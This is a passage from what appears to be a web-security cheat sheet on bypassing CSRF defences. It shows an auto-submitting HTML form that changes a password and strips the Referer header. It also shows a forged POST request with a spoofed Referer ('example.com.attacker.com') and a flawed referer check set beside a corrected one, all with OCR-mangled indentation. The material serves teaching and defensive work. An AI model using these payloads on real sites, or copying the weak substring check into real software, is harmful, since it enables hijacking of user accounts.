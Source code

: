       new_password=abc123&csrf_token=not_a_real_token
      ```
  *   **Bypass CSRF Referer Header Check**

      ```python
      # Just Remove The referrer
      <html>
       <meta name="referrer" content="no-referrer">
       <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
       <input type="text" name="new_password" value="abc123">
       <input type='submit' value="Submit">
       </form>
       <script>document.getElementById("csrf-form").submit();</script>
      </html>
      --------------------
      # Expected Code
      def validate_referer():
       if (request.referer in allowlisted_domains):
      pass
       else:
       throw_error("Referer incorrect. Request rejected.")
      [...]
      def process_state_changing_action():
       if request.referer:
       validate_referer()
       execute_action()
      ---------------------------
      # another way
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE;
      Referer: example.com.attacker.com
      (POST request body)
      new_password=abc123
      ------------------
      # Vulnerable code
      def validate_referer():
       if request.referer:
       if ("example.com" in request.referer):
       pass
       else:
       throw_error("Referer incorrect. Request rejected.")
      [...]
      def process_state_changing_action():
       validate_referer()
       execute_action()
      ```
  *   **Bypass CSRF Protection by Using XSS**
